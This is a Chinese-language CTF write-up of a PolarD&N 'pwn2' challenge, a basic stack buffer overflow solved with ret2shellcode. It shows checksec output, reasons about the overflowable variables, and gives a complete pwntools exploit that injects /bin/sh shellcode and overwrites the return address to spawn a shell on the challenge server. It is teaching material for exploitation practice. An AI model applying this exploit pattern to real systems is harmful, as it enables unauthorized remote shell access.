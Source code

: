 ```yaml
---
title: 基础栈溢出ret2shellcode 写入栈上
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 需要关闭NX、

## 基础检查
> 本例题是PolarD&N的中等入门pwn题 getshell
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2          
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=223702b293e1903c70772cc6ed9ea4b6475e7599, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2          
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida 
![alt text](image-11.png)

很显然v4的长度只有2，而v6很多，

v4写入shellcode的地址

v6写入shellcode
![alt text](image-12.png)

## exp
```py
from pwn import *
context(os="linux", arch='amd64')
io = process("./pwn2")
io = remote("120.46.59.242", 2056)

padding = 0x70 + 8

shellcode = asm(shellcraft.amd64.sh())

v4_addr = int(io.recvline().strip(),16) # 题目给出的地址 转为10进制发送
# ljust 将shellocde填充到缓冲器头部，自适应调整
payload = shellcode.ljust(padding, b'A') + p64(v4_addr)

io.sendline(payload)
io.interactive()
```